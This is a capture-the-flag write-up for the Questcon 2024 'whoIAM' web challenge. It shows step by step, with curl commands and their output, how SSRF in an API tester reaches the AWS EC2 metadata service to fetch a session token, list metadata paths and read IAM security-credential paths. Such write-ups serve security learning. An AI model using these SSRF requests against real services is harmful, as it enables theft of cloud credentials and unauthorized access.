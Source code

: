 ## whoIAM Questcon 2024 [390pts]

**Category:** Web
**Solves:** 23

## Description
You’ve got your hands on the Professor’s secure API Tester, but something’s not right. Beneath its polished surface lies a flaw that could expose the hidden secrets. However, the Professor’s defenses are airtight—standard methods are blocked.

No need to use tools do it manually to get the flag or else you will get the ssh keys!

Author: TheProfessor

Can you outsmart the system and get the credentials of questcon? http://15.207.100.240


## Solution


First read these articles:
```
https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf

https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/
```

It's related to steal credentials of AWS EC2 environments.

First we should steal access token via ssrf access to internal IP in docker env.

```bash
$ curl -X POST "http://15.207.100.240/request" --data '{"method":"PUT","url":"http://169.254.169.254/latest/api/token","headers":{"X-aws-ec2-metadata-token-ttl-seconds": 21600},"body":""}' -H "Content-Type: application/json"
AQAEALMU0jjnTsQb2M7dCgLGTpsrQI4ZTo2MWsjTLfoLG2lkH85uyA==
```

Now let's fuzz a little bit in the environment:
```bash
$ curl -X POST "http://15.207.100.240/request" --data '{"method":"GET","url":"http://169.254.169.254/latest/meta-data","headers":{"X-aws-ec2-metadata-token": "AQAEALMU0jjnTsQb2M7dCgLGTpsrQI4ZTo2MWsjTLfoLG2lkH85uyA=="},"body":""}' -H "Content-Type: application/json"
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
events/
hostname
identity-credentials/
instance-action
instance-id
instance-life-cycle
instance-type
local-hostname
local-ipv4
mac
managed-ssh-keys/
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
system⏎         
```

I tried to read identity-credentials but not working:
```bash
$ curl -X POST "http://15.207.100.240/request" --data '{"method":"GET","url":"http://169.254.169.254/latest/meta-data/identity-credentials/","headers":{"X-aws-ec2-metadata-token": "AQAEALMU0jjnTsQb2M7dCgLGTpsrQI4ZTo2MWsjTLfoLG2lkH85uyA=="},"body":""}' -H "Content-Type: application/json"
try harder! not so easy
```

Seem there is a protection on fetching it.
Also for security-credentials:
```bash
$ curl -X POST "http://15.207.100.240/request" --data '{"method":"GET","url":"http://169.254.169.254/latest/meta-data/iam/security-credentials","headers":{"X-aws-ec2-metadata-token": "AQAEALMU0jjnTsQb2M7dCgLGTpsrQI4ZTo2MWsjTLfoLG2lkH85uyA=="},"body":""}' -H "Content-Type: application/json"
Nahh, you can't have that
```

But by some guessing, that they want the competition security info, i tried to fetch questcon key and got the flag:
```bash
$ curl -X POST "http://15.207.100.240/request" --data '{"method":"GET","url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/questcon","headers":{"X-aws-ec2-metadata-token": "AQAEALMU0jjnTsQb2M7dCgLGTpsrQI4ZTo2MWsjTLfoLG2lkH85uyA=="},"body":""}' -H "Content-Type: application/json"
QUESTCON{IMDS_3s_4r3_4w3s0m3_t0_ha4k}
```
